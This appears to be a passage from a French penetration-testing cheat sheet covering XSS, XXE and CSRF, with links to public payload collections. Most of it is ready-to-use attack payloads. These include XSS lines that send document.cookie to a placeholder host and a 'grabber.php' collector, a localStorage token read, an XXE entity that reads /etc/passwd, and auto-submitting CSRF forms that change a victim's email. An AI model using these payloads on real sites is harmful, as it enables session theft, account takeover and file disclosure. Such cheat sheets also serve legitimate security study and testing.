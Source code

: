 ```html
```
```html
<img src=x onerror=this.src='BEECEPTOR/'+document.cookie;>
```
```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```
```javascript
localStorage.getItem('access_token')
```
- On peut également faire du CSRF pour obliger l'utilisateur à réaliser une action déterminée
[CSRF](#csrf)

-----

## XXE

### Liens

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

### Méthodologie pour afficher un fichier ou lire un lien

- Rajouter au début
```html
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
- Puis afficher le contenu avec
```html
&xxe;
```

-----

## CSRF

### Liens

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)

[Générateur](https://security.love/CSRF-PoC-Genorator/)

### Méthodologie

- En fonction de la requête à exploiter utiliser le payload qui correspond
```html
<form action="https://vulnerable-website.com/email/change" method="POST">
  <input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
<script>
  document.forms[0].submit();
</script>
```
```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```
